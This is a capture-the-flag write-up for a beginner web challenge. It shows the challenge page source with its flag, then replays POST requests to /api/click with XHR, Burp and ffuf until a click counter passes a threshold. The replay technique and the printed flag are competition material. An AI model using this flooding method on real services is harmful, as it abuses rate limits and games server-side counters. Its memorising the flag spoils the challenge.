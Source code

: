 # Introduction
This is a rather simple web challange to get familliar with how to send request 

## Challange Discription

ARIA has ordered you to touch grass. Now you actually have to do it. Make up for all the times you havent touched it.
https://uscybercombine-touch-grass.chals.io/

## Webpage 

After signup we are faced with a simple dashboard 

![](../assets/Touch_grass_1.png)

openning the source code we see two comment line at end of code

``` html
<!DOCTYPE html>
<html>
    <head>
        <title>Touch Grass Inc.</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.8.2/font/bootstrap-icons.css">
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.0.0/dist/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
        <link rel="stylesheet" href="/static/css/style.css">
        <script src="https://code.jquery.com/jquery-3.2.1.slim.min.js" integrity="sha384-KJ3o2DKtIkvYIK3UENzmM7KCkRr/rE9/Qpg6aAZGJwFDMVNA/GpGFF93hXpG5KkN" crossorigin="anonymous"></script>
        <script src="https://cdn.jsdelivr.net/npm/popper.js@1.12.9/dist/umd/popper.min.js" integrity="sha384-ApNbgh9B+Y1QKtv3Rn7W3mgPxhU9K/ScQsAP7hUibX39j7fakFPskvXusvfa0b4Q" crossorigin="anonymous"></script>
        <script src="https://cdn.jsdelivr.net/npm/bootstrap@4.0.0/dist/js/bootstrap.min.js" integrity="sha384-JZR6Spejh4U02d8jOt6vLEHfe/JQGiRRSQQxSfFWpi1MquVdAyjUar5+76PVCmYl" crossorigin="anonymous"></script>
    </head>
    <body>
      <div id="content">
        <h3>Grass Dashboard</h3>
        <p>Current User: salar</p>
        <nav class="navbar navbar-expand-lg navbar-light bg-light">
            <a class="navbar-brand" href="javascript:void(0)">Menu</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
              <span class="navbar-toggler-icon"></span>
            </button>
          
            <div class="collapse navbar-collapse" id="navbarSupportedContent">
              <ul class="navbar-nav mr-auto">
                <li class="nav-item active">
                  <a class="nav-link" href="javascript:void(0)">Home <span class="sr-only">(current)</span></a>
                </li>
                <li class="nav-item">
                  <a class="nav-link" href="javascript:void(0)">Grassy Data</a>
                </li>
                <li class="nav-item dropdown">
                  <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">
                    Reports
                  </a>
                  <div class="dropdown-menu" aria-labelledby="navbarDropdown">
                    <a class="dropdown-item" href="javascript:void(0)">Grass</a>
                    <a class="dropdown-item" href="javascript:void(0)">More Grass</a>
                    <div class="dropdown-divider"></div>
                    <a class="dropdown-item" href="javascript:void(0)">Even More Grass</a>
                  </div>
                </li>
                <li class="nav-item">
                  <a class="nav-link" href="/logout">Logout</a>
                </li>
              </ul>
              <form class="form-inline my-2 my-lg-0">
                <input class="form-control mr-sm-2" type="search" placeholder="Search" aria-label="Search">
                <button class="btn btn-outline-success my-2 my-sm-0" type="submit">Search</button>
              </form>
            </div>
          </nav>
        
        <div class="alert alert-success" role="alert">
            <p>Good job meeting your grass touching requirements!</p>
            <p>Here's your prize for completing the challenge: <b>SIVBGR{T0uch_1t}</b></p>
            <p style='text-align:right'>- Admin</p>
        </div>
        
        
        <h4 style="color:red">!Important!</h4>
        <p>The following is your grass touch counter. You need over 100000 to successfully make up for the times you havent touched grass.</p>
        <h4>Touch Count: 141561</h4>
        <!-- Put clickable image of grass here. Need javascript to send POST when clicked-->
        <!-- New click API at /api/click, remove the admin version ASAP -->
      </div>
    </body>
</html>
```

## Step 1 

First we need to create send a **POST** request using **JavaScript** to api "/api/click" , so we can use XHR

``` javascript
var xhr = new XMLHttpRequest();
var url = '/api/click';
var jsonData = {
    username: 'user'
};

xhr.open('POST', url, true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.withCredentials = true; // Allow cookies to be sent with the request

xhr.onreadystatechange = function() {
    if (xhr.readyState == 4 && xhr.status == 200) {
        // Request was successful
        console.log(xhr.responseText);
    }
};

xhr.send(JSON.stringify(jsonData));

```

## Step 2

we can capture the request in burp and then repeat it 

![](../assets/Touch_grass_2.png)

## step 3 

we use ffuf with a large enough wordlist and request capture at **step 2**  in order to make lots of request.
for example here we can edit the request and add a custom header to use our wordlist fuzz:

```Burp
POST /api/click HTTP/1.1
Host: uscybercombine-touch-grass.chals.io
Cookie: session=kjaoIIU1Om2MayTntEoaOMwUN7SyUeS_oEOnOZp-Pk4
Content-Length: 20
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://uscybercombine-touch-grass.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uscybercombine-touch-grass.chals.io/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: keep-alive
X: FUZZ

{"username":"user"}
```

The final command used is bellow:

```bash
ffuf -w wordlist/larg.txt -request a.txt
```
